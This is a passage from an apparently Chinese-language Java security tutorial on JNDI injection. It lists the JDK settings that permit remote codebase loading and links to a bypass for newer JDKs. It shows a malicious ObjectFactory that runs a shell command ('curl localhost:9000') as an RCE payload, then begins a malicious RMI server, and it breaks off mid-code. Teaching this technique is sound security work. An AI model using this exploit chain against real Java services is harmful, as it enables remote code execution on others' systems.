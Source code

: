 或者在启动`Java`程序时候指定`-D参数`：`-Djava.rmi.server.useCodebaseOnly=false -Dcom.sun.jndi.rmi.object.trustURLCodebase=true`。

`LDAP`在`JDK 11.0.1、8u191、7u201、6u211`后也将默认的`com.sun.jndi.ldap.object.trustURLCodebase`设置为了`false`。

高版本`JDK`可参考：[如何绕过高版本 JDK 的限制进行 JNDI 注入利用](https://paper.seebug.org/942/)。

### 使用创建恶意的ObjectFactory对象

`JNDI`允许通过*对象工厂* (`javax.naming.spi.ObjectFactory`)动态加载对象实现，例如，当查找绑定在名称空间中的打印机时，如果打印服务将打印机的名称绑定到 Reference，则可以使用该打印机 Reference 创建一个打印机对象，从而查找的调用者可以在查找后直接在该打印机对象上操作。

对象工厂必须实现 `javax.naming.spi.ObjectFactory`接口并重写`getObjectInstance`方法。

**ReferenceObjectFactory示例代码：**

```java
package com.anbai.sec.jndi.injection;

import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.util.Hashtable;

/**
 * 引用对象创建工厂
 */
public class ReferenceObjectFactory implements ObjectFactory {

	/**
	 * @param obj  包含可在创建对象时使用的位置或引用信息的对象（可能为 null）。
	 * @param name 此对象相对于 ctx 的名称，如果没有指定名称，则该参数为 null。
	 * @param ctx  一个上下文，name 参数是相对于该上下文指定的，如果 name 相对于默认初始上下文，则该参数为 null。
	 * @param env  创建对象时使用的环境（可能为 null）。
	 * @return 对象工厂创建出的对象
	 * @throws Exception 对象创建异常
	 */
	public Object getObjectInstance(Object obj, Name name, Context ctx, Hashtable<?, ?> env) throws Exception {
		// 在创建对象过程中插入恶意的攻击代码，或者直接创建一个本地命令执行的Process对象从而实现RCE
		return Runtime.getRuntime().exec("curl localhost:9000");
	}

}
```

### 创建恶意的RMI服务

如果我们在`RMI`服务端绑定一个恶意的引用对象，`RMI`客户端在获取服务端绑定的对象时发现是一个`Reference`对象后检查当前`JVM`是否允许加载远程引用对象，如果允许加载且本地不存在此对象工厂类则使用`URLClassLoader`加载远程的`jar`，并加载我们构建的恶意对象工厂(`ReferenceObjectFactory`)类然后调用其中的`getObjectInstance`方法从而触发该方法中的恶意`RCE`代码。

**包含恶意攻击的RMI服务端代码：**

```java
package com.anbai.sec.jndi.injection;

import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.Reference;
import java.rmi.Naming;
import java.rmi.registry.LocateRegistry;

import static com.anbai.sec.rmi.RMIServerTest.RMI_NAME;
import static com.anbai.sec.rmi.RMIServerTest.RMI_PORT;

/**
 * Creator: yz
```